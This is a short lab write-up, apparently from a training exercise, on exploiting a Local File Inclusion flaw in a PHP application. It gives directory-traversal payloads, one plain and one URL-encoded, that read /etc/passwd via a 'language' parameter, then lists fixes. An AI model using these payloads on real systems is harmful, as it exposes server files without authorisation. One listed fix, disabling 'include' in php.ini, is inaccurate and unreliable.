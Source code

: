 # Local File Inclusion (LFI)

##  What I Did
Exploited a PHP web application by abusing the parameter to access restricted server files. This confirmed a **Local File Inclusion (LFI)** vulnerability.

---

##  Tools Used
- LFI vulnerable site
- Burp Suite (for request manipulation & encoding)
- Online Encoders (for obfuscating traversal attempts)

---

##  Screenshot – `/etc/passwd` Leaked via LFI
![lfi](../images/LFI.jpg)

---

##  Steps

### 1. Found the vulnerable `language` parameter

Injected traversal payload:
```
http://94.237.121.185:33465/index.php?language=../../../../etc/passwd
```

 File loaded in-browser showing user entries like `root:x:0:0:/root:/bin/bash`

---

### 2. Tried Bypass Techniques (in case of filters)

URL encoded:
```
.../index.php?language=%2e%2e%2f%2e%2e%2fetc%2fpasswd

```

### 3. Explored More Sensitive Files (optional)

Some returned useful debugging and environment variables.

---


## Fixes:

### 1. **Whitelist Acceptable Inputs**
   Accept only known safe files like `en.php`, `about.php`.

### 2. **Sanitize File Paths**
   Remove `../`, `%2e%2e`, and null bytes before including files.

### 3. **Restrict Server Permissions**
   Web server (e.g. `www-data`) should not access system files.

### 4. **Disable Dangerous Functions**
   In `php.ini`, turn off `allow_url_fopen`, `include`, etc.

### 5. **Logging & Monitoring**
   Flag excessive traversal attempts or failed file lookups.
